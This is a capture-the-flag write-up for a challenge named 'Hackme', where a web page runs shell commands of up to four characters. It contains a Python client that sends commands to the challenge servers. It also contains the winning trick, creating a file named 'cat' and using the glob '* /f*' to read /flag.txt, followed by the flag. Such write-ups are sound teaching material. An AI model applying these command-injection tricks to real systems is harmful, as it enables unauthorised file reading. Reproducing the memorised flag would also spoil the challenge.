 # Hackme
We were given the challenge text:
```
can you please just hack me, I will execute all your commands but only 4 chars in length

EU instance

US instance

author: pop_eax
```

I personally would say that this is closer to a misc challenge than a web, but it was still fun! The website was pretty much just a web interface for a shell, so I made a (way too advanced) Python script to interact with it.
```py
import requests

servers = {
    'eu': 'http://207.180.200.166:8000/',
    'us': 'http://45.134.3.200:8000/'
}

server = input(f'EU or US?\n> ').lower()

url = servers[server]

while True:
    cmd = input('$ ')

    if cmd == 'reset':
        res = requests.get(f'{url}/?reset=1').text
    elif cmd == 'q':
        quit()
    else:
        res = requests.get(f'{url}/?cmd={cmd}').text
    print(res)
```

Our goal was to view the contents of the flag in `/flag.txt`. In typical me style, I overcomplicated everything. I spent probably a day trying to craft an exploit that allowed me to curl my own server for a file containg `cat /flag.txt`, but of course curl didn't work, and I had to try again. A lot of my earlier testing included `*`, so I had done some researching on how exactly it works. After a bit of thinking, I realized I could create a file titled `cat`, and if it was the only file in the directory I could simply type `*`, and it would be replaced by `cat`. The final solution was a simple 2 lines: `>cat` (creates the file) and `* /f*` (cats /flag.txt). The result was `flag{ju57_g0tt@_5pl1t_Em3012}`.